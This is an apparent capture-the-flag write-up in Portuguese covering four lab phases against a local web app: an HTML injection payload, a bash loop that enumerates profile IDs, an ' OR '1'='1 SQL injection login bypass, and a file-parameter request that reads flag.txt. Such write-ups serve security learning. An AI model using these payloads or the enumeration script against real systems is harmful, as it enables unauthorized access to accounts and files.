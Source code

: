 ### Fase 1 — HTML Injection

**Comportamento observado ao enviar o conteúdo:**

```html
<p>Seu feedback: <input type="text" value="*texto que o usuário informa*"></p>
```

**Payload testado no campo:**

```html
"><textarea>
```

**Retorno recebido:**

```html
 <p>Seu feedback: <input type="text" value=""><textarea>"<!-- DICA SECRETA: flag{comentario_oculto} -->></p>
```

---

### Fase 2 — Access Control

Criei um script simples que varre IDs e detecta perfis válidos pela presença da string `Informações do Usuário` na resposta da requisição:

```bash
for id in {1..10000}; do
    response=$(curl -s "http://localhost:5000/perfil?id=$id")

    if echo "$response" | grep -q "Informações do Usuário"; then        
        echo "ID $id: http://localhost:5000/perfil?id=$id"
    fi
done
```

**Exemplo de saída:**

```bash
ID 1: http://localhost:5000/perfil?id=1
ID 1337: http://localhost:5000/perfil?id=1337
```

---

### Fase 3 — SQL Injection

A aplicação executa uma query SQL ao submeter `username` e `password`:

```sql
SELECT * FROM usuarios WHERE username = '' AND password = ''
```

**Exploração (exemplo):**

Injetando:

```sql
' OR '1'='1
```

A consulta resultante torna-se equivalente a:

```sql
SELECT * FROM usuarios WHERE username = '' OR '1'='1' AND password = '' OR '1'='1'
```

Isso retorna uma condição verdadeira e permitir a autenticação.

---

### Fase 4 — IDOR (Insecure Direct Object Reference)

Acessei por um arquivo específico no servidor local, nesse caso `flag.txt`:

```url
http://localhost:5000/documento?file=flag.txt
```

Como a aplicação não valida o parâmetro `file`, isso permite o acesso a arquivos sensíveis.
